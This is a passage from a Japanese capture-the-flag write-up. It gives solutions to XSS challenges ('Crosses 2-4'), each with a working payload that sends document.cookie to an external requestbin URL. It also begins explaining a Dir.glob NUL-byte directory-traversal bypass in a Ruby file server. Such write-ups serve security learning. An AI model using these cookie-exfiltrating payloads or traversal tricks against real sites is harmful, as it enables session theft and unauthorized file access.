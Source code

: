 回答例

```html
<img src=x onerror='location.href="http://requestbin.net/r/s4dhc2s4?"+document.cookie'>
```

フラグ: `SWCTF{now_listening_O-Ku-Ri-Mo-No_Sunday_M@STER_VERSION}`

楽曲: [O-Ku-Ri-Mo-No Sunday! - 久川凪、久川颯](https://www.youtube.com/watch?v=Fa1YczPNxYw)

## Crosses 3 (496pts)

実はこれも出題ミスである。`<iframe>`や`<svg>`などのBASE64エンコードを用いてscriptを埋め込むことを想定していたが、これらのコンテキストからCookieを取得することができなかったので使えない。

幸い、よく見るとonxxxxx系のチェックが甘いので簡単にバイパスすることができる。

回答例

```html
<img src=x onerror = 'location.href="http://requestbin.net/r/s4dhc2s4?"+document.cookie'>
```

フラグ: `SWCTF{now_listening_ai_wo_tsutaetaidatoka}`

楽曲: [愛を伝えたいだとか - あいみょん](https://www.youtube.com/watch?v=9qRCARM_LfE)

## Crosses 4 (464pts)

Crosses 2 と問題被ってない? よくないね

回答例

```html
x" onerror="location.href="http://requestbin.net/r/s4dhc2s4?"+document.cookie
```

フラグ: `SWCTF{now_listening_3_nen_C_gumi_kubosono_chiyoko_no_nyukaku}`

楽曲: [3年C組14番窪園チヨコの入閣 - 椎名もた feat. 鏡音リン](https://www.youtube.com/watch?v=bS18DC9mJpo)

## File Server (500pts)

Ruby問。問題のリンクを開くとくるくる回る博多市が現れるが、このページには何も情報がないので、とりあえずルートを開くと、app.rbというファイルが見えるので、とりあえず開く。

ソースコードが見られるので、これの挙動をよく観察しよう。`/tmp/flags`なるディレクトリに`flag.txt`を移動していることがわかるので、ディレクトリトラバーサルなどを用いてこのファイルを読むことがこの問題の目的と考えられる。ここではDir.globの非自明な挙動を2つ利用する。

まずは[Dir.globのリファレンス](https://ruby-doc.org/core-2.6.3/Dir.html#method-c-glob)をよく読もう!

1. Dir.globはNULLで区切られた文字列を配列とみなす

    まず、フラグのファイル名はランダムな値にセットされるので、このファイル名を取得する必要がある。

    実は、[Dir.globはNULLで区切られた文字列をパターンの配列とみなす。](https://docs.ruby-lang.org/ja/latest/method/Dir/s/=5b=5d.html)たとえば`Dir.glob("/hoge\0/fuga")`は`Dir.glob(["/hoge", "/fuga"])`と同じとみなされる。~~誰やねんこの挙動考えたの。~~実は12月にリリース予定の Ruby 2.7.0 で削除される予定なのだが、現在のバージョンではギリギリまだこの仕様が残っている。この挙動に関しては[CVE-2018-8780](https://nvd.nist.gov/vuln/detail/CVE-2018-8780)の[hackerone上のPoC](https://hackerone.com/reports/302338)でも言及されている。

    この挙動を用いると、ソースコード上のディレクトリトラバーサルのチェックを上手く回避し、`/tmp/flags`の下のファイルを上手く一覧することができる。
